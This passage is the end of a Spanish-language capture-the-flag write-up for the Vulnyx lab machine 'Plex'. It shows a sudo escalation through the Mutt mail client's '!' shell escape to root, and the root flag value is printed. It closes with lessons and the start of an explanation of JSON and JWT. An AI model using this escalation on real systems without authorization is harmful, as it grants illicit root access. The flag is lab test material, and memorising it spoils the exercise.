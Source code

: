 ```bash
mauro@plex:~$ sudo -u root /usr/bin/mutt
```

Dentro de /usr/bin/mutt que es la ruta del ejecutable del programa Mutt que es un cliente de correo electrónico de línea de comandos colocamos `!` para poder ejecurar la ruta del bash `/bin/bash`.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/Vulnyx/1.Plex/17.jpg?raw=true "mutt")

Con esto ya podremos ejecutar comandos con los privilegios de root.

```bash
root@plex:/home/mauro# 
root@plex:/home/mauro# id
uid=0(root) gid=0(root) grupos=0(root)
root@plex:/home/mauro# pwd
/home/mauro
root@plex:/home/mauro# 
```
### 5.2 Flag de root

Buscamos la ultima flag del superuser (root) el cual normalmente esta en la ruta `/root`

```bash
root@plex:/# cd root
root@plex:~# ls
Mail  root.txt
root@plex:~# cat root.txt 
943f08fb32181d5f8171332146f39e41
root@plex:~# 
```
Listo!, ultima flag obtenida.

## 6. Recomendaciones y Conclusiones

* Es importante estar atento a los resultados obtenidos. Muchas veces, la más mínima sospecha o anomalía en un resultado puede ser el camino correcto hacia la solución del CTF.

* No olvidar, la paciencia es una virtud.

* Muchas Gracias [Vulnyx](https://vulnyx.com "vulnyx").
Fue muy divertido.

## 7. Fundamento Teórico

### ¿Qué es un JWT (JSON Web Token)?

**Para empesar, ¿Que es JSON?**

JSON (JavaScript Object Notation) es un formato ligero de intercambio de datos que es fácil de leer y escribir tanto para los humanos como para las máquinas. Se utiliza principalmente para transmitir datos entre un servidor y una aplicación web como texto plano.

Algunas caracteristicas de JSON son:
